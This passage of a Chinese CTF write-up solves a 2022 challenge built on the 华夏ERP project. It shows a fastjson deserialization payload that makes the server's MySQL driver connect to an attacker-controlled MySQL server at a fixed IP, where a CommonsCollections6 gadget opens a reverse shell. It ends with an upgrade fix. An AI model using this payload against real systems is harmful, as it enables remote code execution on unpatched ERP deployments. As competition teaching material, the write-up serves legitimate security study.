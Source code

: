 如果遍历出来flag那么可以直接file读取flag了
这里继续复现，本地测试发现如果commons-io版本为2.6，那么就会报错：
```
create instance error, null, public org.apache.commons.io.input.CharSequenceInputStream(java.lang.CharSequence,java.lang.String,int)
```
无法成功的写入二进制文件



参考文章：
[[原创]2021深育杯线上初赛官方WriteUp](https://bbs.pediy.com/thread-270353.htm)
[ctf中的java题目](https://tttang.com/archive/1331/)

### [蓝帽杯2022决赛]赌怪
发现是华夏erp的项目，可以直接注册一个用户，然后存在反序列化漏洞
并且项目中存在mysql-connector-java 5.1.30和cc3.2.1链
![](https://img-blog.csdnimg.cn/b82553a505ba4b3982aad40ffa78655b.png)
![](https://img-blog.csdnimg.cn/b4b71a097b54489b8909571bb77ba15a.png)

看到这那么思路就很简单了，直接打fastjson的mysql反序列化

开启mysql恶意服务
![](https://img-blog.csdnimg.cn/b929539397444ec5a9fc5e4d64b88423.png)

payload：
```json
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "42.192.42.48", "portToConnectTo": 3306, "info": { "user": "CommonsCollections6", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```
在search处传入，注意url编码
![](https://img-blog.csdnimg.cn/878c3a6f3e08473da0cb935f50363406.png)

成功传输数据，cc6的内容为反弹shell
![](https://img-blog.csdnimg.cn/08c2f980ee2e4d36a36da41862ddfb32.png)

成功接收到shell，获得flag
![](https://img-blog.csdnimg.cn/e5238072472e44329d944bb116d10d1b.png)

修复的话也很简单，直接替换为高版本的fastjson就可以了

参考：
[SpringBoot框架华夏ERP源码审计](https://www.cnblogs.com/bmjoker/p/14856437.html)
[华夏ERP漏洞之授权绕过漏洞+后台命令执行漏洞=未授权命令执行](https://cn-sec.com/archives/387212.html)
